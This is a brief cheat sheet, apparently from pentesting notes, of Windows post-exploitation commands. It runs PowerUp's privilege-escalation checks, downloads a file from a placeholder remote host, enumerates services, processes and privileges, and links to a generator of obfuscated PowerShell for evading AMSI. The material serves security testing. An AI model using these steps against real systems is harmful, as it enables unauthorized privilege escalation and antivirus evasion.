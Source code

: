 ##### Execute PowerUp.ps1
```powershell
# Run and do AllChecks in one line.
PowerShell.exe Invoke-Command -ScriptBlock { "Import-Module .\PowerUp.ps1; Invoke-AllChecks"} 
```

##### Download A File To Disk
```bash
powershell -c wget "http://<Source Address>/<Source File>" -outfile "<Output File>"
```

##### Get List of Running Services
```powershell
powershell Get-Service
```

##### Get list of processes running, sorted by name.
```powershell
tasklist /NH | sort
```

```bash
whoami /priv
```

# References
[Generates obfuscated PowerShell snippets](https://amsi.fail/)